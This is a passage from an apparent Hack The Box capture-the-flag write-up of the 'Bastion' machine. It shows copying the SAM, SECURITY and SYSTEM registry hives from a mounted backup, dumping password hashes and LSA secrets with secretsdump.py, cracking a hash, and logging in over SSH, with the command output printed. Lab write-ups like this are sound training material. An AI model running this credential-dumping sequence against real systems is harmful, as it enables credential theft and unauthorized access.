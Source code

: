 Mounting the file:

![](http://vedanttare.com/wp-content/uploads/2022/04/mount-share.png)

So, now we had to find credentials for a user. As we knew that this was a windows machine..we could get the encrypted file SAM, SECURITY AND SYSTEM and then dump their hashes and then crack them. So, that’s what we did:

`kali@starscorp1o:/mnt$ sudo cp vhd/Windows/System32/config/SAM .<br></br>kali@starscorp1o:/mnt$ ls<br></br>ls: cannot access 'vhd': Permission denied<br></br>note.txt SAM SDT65CB.tmp vhd WindowsImageBackup<br></br>kali@starscorp1o:/mnt$ sudo cp vhd/Windows/System32/config/SYSTEM .<br></br>kali@starscorp1o:/mnt$ sudo cp vhd/Windows/System32/config/SECURITY .`

Now using secretsdump.py python script we could dump the hashes:

ka`li@starscorp1o:/mnt$ secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL<br></br>Impacket v0.9.22.dev1+20200629.145357.5d4ad6cc - Copyright 2020 SecureAuth Corporation`

`[<em>] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f [</em>] Dumping local SAM hashes (uid:rid:lmhash:nthash)<br></br>Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::<br></br>Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::<br></br>L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::<br></br>[<em>] Dumping cached domain logon information (domain/username:hash) [</em>] Dumping LSA Secrets<br></br>[<em>] DefaultPassword (Unknown User):bureaulampje [</em>] DPAPI_SYSTEM<br></br>dpapi_machinekey:0x32764bdcb45f472159af59f1dc287fd1920016a6<br></br>dpapi_userkey:0xd2e02883757da99914e3138496705b223e9d03dd`  
`[*] Cleaning up…`

![](http://vedanttare.com/wp-content/uploads/2022/04/secretsdump.png)

Now we had to crack the hashes, we did that using crackstation and got the password for a user:

![](http://vedanttare.com/wp-content/uploads/2022/04/cracked-hash.png)

`L4mpje:bureaulampje`

Using these creds we were able to successfully login using SSH:

`kali@starscorp1o:~/htb/boxes/bastion$ ssh L4mpje@10.10.10.134<br></br>The authenticity of host '10.10.10.134 (10.10.10.134)' can't be established.<br></br>ECDSA key fingerprint is SHA256:ILc1g9UC/7j/5b+vXeQ7TIaXLFddAbttU86ZeiM/bNY.<br></br>Are you sure you want to continue connecting (yes/no/[fingerprint])? yes<br></br>Warning: Permanently added '10.10.10.134' (ECDSA) to the list of known hosts.<br></br>L4mpje@10.10.10.134's password:<br></br>Permission denied, please try again.<br></br>L4mpje@10.10.10.134's password:<br></br>Microsoft Windows [Version 10.0.14393]<br></br>(c) 2016 Microsoft Corporation. All rights reserved.`

`l4mpje@BASTION C:\Users\L4mpje>id<br></br>'id' is not recognized as an internal or external command,<br></br>operable program or batch file.`

`l4mpje@BASTION C:\Users\L4mpje>whoami<br></br>bastion\l4mpje`

`l4mpje@BASTION C:\Users\L4mpje>dir<br></br>Volume in drive C has no label.<br></br>Volume Serial Number is 0CB3-C487`

`Directory of C:\Users\L4mpje`

`22-02-2019 14:50 .<br></br>22-02-2019 14:50 ..<br></br>22-02-2019 16:26 Contacts<br></br>22-02-2019 16:27 Desktop<br></br>22-02-2019 16:26 Documents<br></br>22-02-2019 16:26 Downloads<br></br>22-02-2019 16:26 Favorites<br></br>22-02-2019 16:26 Links<br></br>22-02-2019 16:26 Music<br></br>22-02-2019 16:26 Pictures<br></br>22-02-2019 16:26 Saved Games<br></br>22-02-2019 16:26 Searches<br></br>22-02-2019 16:26 Videos<br></br>0 File(s) 0 bytes<br></br>13 Dir(s) 11.291.164.672 bytes free`
